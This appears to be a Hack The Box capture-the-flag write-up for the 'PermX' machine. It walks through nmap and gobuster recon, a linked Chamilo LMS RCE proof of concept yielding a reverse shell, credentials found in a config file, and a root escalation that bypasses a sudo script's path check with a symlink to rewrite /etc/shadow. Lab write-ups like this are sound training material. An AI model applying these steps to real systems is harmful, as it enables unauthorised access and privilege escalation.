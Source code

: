# PermX CTF

## Initial foothold :

### Nmap discovery :

```bash
Nmap discovery :
┌──(david㉿kali)-[~]
└─$ sudo nmap -p- -sV -sC 10.129.219.20
[sudo] password for david: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-08 15:02 CEST
Nmap scan report for 10.129.219.20
Host is up (0.012s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://permx.htb
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.83 seconds
```
We add http://permx.htb to our hosts file 

### Vhost scan with gobuster :

Since there is a redirection for each domain with status 302 I decided to put the output in a file then with a grep command get rid of the junk :

```bash
┌──(david㉿kali)-[/mnt/kali-extended/hackthebox]
└─$ gobuster vhost -u http://permx.htb/ -w /usr/share/wordlists/dns/bitquark-subdomains-top100000.txt  --append-domain > out.txt

┌──(david㉿kali)-[/mnt/kali-extended/hackthebox]
└─$ grep -v "Status: 302" out.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://permx.htb/
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/dns/bitquark-subdomains-top100000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: lms.permx.htb Status: 200 [Size: 19347]
Found: *.permx.htb Status: 400 [Size: 301]
```
We found a subdomain we add it to our hosts file 

### Directory scan on http://lms.permx.htb/ with gobuster :

```bash
┌──(david㉿kali)-[/mnt/kali-extended/hackthebox]
└─$ gobuster dir -u http://lms.permx.htb/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -x txt,html,php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://lms.permx.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-1.0.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,html,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 278]
/.php                 (Status: 403) [Size: 278]
/terms.php            (Status: 200) [Size: 16127]
/web                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/web/]
/index.php            (Status: 200) [Size: 19356]
/bin                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/bin/]
/main                 (Status: 301) [Size: 313] [--> http://lms.permx.htb/main/]
/robots.txt           (Status: 200) [Size: 748]
/documentation        (Status: 301) [Size: 322] [--> http://lms.permx.htb/documentation/]
/src                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/src/]
/user.php             (Status: 302) [Size: 0] [--> whoisonline.php]
/license.txt          (Status: 200) [Size: 1614]
/app                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/app/]
/vendor               (Status: 301) [Size: 315] [--> http://lms.permx.htb/vendor/]
/certificates         (Status: 301) [Size: 321] [--> http://lms.permx.htb/certificates/]
/custompages          (Status: 301) [Size: 320] [--> http://lms.permx.htb/custompages/]
/web                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/web/]
Progress: 566832 / 566836 (100.00%)
===============================================================
Finished
===============================================================
```
On the formular I decided to use the default credentials to try :
admin:DigitalOcean7
But wihtout result.

So i search for cve and found this POC : https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc?tab=readme-ov-file
It works great after following the procedure we have a reverse shell

## Privilege escalation from www-data to mtz :

I run a simple python server on my local machine 
And retrieve a linpeas executable with wget on the remote machine

After running linpeas I found a password on a php configuration file :
![password](https://image.noelshack.com/fichiers/2024/28/1/1720456843-screenshot-from-2024-07-08-16-19-59.png)

Don't be confuse by the bcrypt in the config file the password is not encrypted

So we have the following credentials mtz:03F6lY3uXAP2bkW8

Congrats we can cat the user file in the home directory

## Privelege escalation from mtz to root :

I run sudo -l :

```bash
mtz@permx:~$ sudo -l
sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```
Good we can run alc.sh as root user, we check the file :

```bash
mtz@permx:~$ cat /opt/acl.sh	
cat /opt/acl.sh
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```
We can see that there is a flaw here, the check "$target" != /home/mtz/* || "$target" == *..* can be bypassed by using a symlink. For example, creating a symlink to the root folder

```bash
ln -s / root_symlink
```
And executing the script like this :
```bash
sudo /opt/acl.sh mtz rwx /home/mtz/root_symlink/etc/shadow
```
Will allow us to see the content of /etc/shadow and modify it !

In our local machine we type the following command and type test when it asked for a password :

```bash
┌──(david㉿kali)-[~]
└─$ mkpasswd --method=yescrypt
Password: 
$y$j9T$eMM9aLbHznCE2omQKTwRG1$rM3Umy9s5ucyGAI6MSd9JxPgy7Fli8Gbf9UdgpB6Ze4
```
We add the hash to the /etc/shadow file and we su as root with the new password and you can cat the root.txt file 

